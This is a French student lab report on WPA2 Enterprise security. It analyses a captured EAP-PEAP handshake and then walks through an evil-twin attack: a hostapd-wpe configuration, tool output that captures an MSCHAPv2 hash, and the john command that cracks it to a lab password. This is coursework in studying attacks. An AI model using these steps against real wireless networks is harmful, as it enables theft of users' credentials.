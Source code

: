 # Sécurité des réseaux sans fil - Laboratoire WPA2 Entreprise


Authors : Emmanuel Schmid and Théo Gallandat

## 1. Capture et analyse d’une authentification WPA Entreprise

### Comparer votre capture au processus d’authentification expliqué en classe


Identifier le canal utilisé par l’AP dont la puissance est la plus élevée.
Vous pouvez fairececi avec airodump-ng, par exemple


### Requête et réponse d’authentification système ouvert
![alt text](./images/Authen1.png)
![alt text](./images/Authen2.png)

### Requête et réponse d’association
![alt text](./images/Assoc1.png)
![alt text](./images/Assoc2.png)

### Sélection de la méthode d’authentification
![alt text](./images/methoAuthNego.png)
![alt text](./images/methodeAuthSelect.png)

### Phase d’initiation.
> Arrivez-vous à voir l’identité du client ?
![alt text](./images/Identity.png)

### Phase hello
![alt text](./images/phaseHello.png)
* Version TLS
* Suites cryptographiques et méthodes de compression proposées par le client et acceptées par l’AP
* Nonces
* Session ID

### Phase de transmission de certificats
![alt text](./images/PhaseCertif.png)
* Certificat serveur
![alt text](./images/ChangeCipherSpec.png)
* Change cipher spec

### Authentification interne et transmission de la clé WPA
(échange chiffré, vucomme « Application data »)
![alt text](./images/AppData.png)

### 4 way hadshake
![alt text](./images/handshakes.png)

### Questions

1. Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ? EAP-TLS, EAP-PEAP

2. Quelle méthode d’authentification est utilisée ? EAP-PEAP

3. Lors de l’échange de certificats entre le serveur d’authentification et le client :

  a. Le serveur envoie un certificat au client ?

  b. Le client envoie un certificat au serveur ?

  c. Les deux s’échangent des certificats ?

## 2. Attaque WPA Entreprise

4. Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?

Extrait de `/etc/hostapd-wpe/hostapd-wpe.conf`
```
# Configuration file for hostapd-wpe

# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0

# May have to change these depending on build location
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd-wpe/certs/dh

# 802.11 Options
ssid=hostapd-wpe
channel=1
```

On peut donc choisir l'interface, le ssid et le channel.

5. Quel type de hash doit-on indiquer à john pour craquer le handshake ?

Output de l'exécution de `hostapd-wpe`:
```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr 00:c0:ca:8f:d9:e6 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA 94:65:2d:a4:34:92 IEEE 802.11: associated
wlan0: CTRL-EVENT-EAP-STARTED 94:65:2d:a4:34:92
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Thu May 17 07:04:03 2018
	 username:	getting_hacked
	 challenge:	7a:46:19:94:04:65:7c:58
	 response:	74:2e:95:a4:03:a3:44:26:28:62:44:f1:cb:45:b2:a1:97:e6:d5:9f:f3:70:a1:2c
	 jtr NETNTLM:	getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c
```

On lui donne un hahs de type `netntlm`, ici `getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c`:
```
john --format=netntlm hash.txt                                                                                 
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 AVX 12x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
mdpasse          (getting_hacked)
1g 0:00:02:14 DONE 3/3 (2018-05-17 18:13) 0.007448g/s 29557Kp/s 29557Kc/s 29557KC/s mdpatkh..mdpageo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le mot de passe est donc : `mdpasse`

6. Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
* EAP-FAST/MSCHAPv2 (Phase 0)
* PEAP/MSCHAPv2
* EAP-TTLS/MSCHAPv2
* EAP-TTLS/MSCHAP
* EAP-TTLS/CHAP
* EAP-TTLS/PA
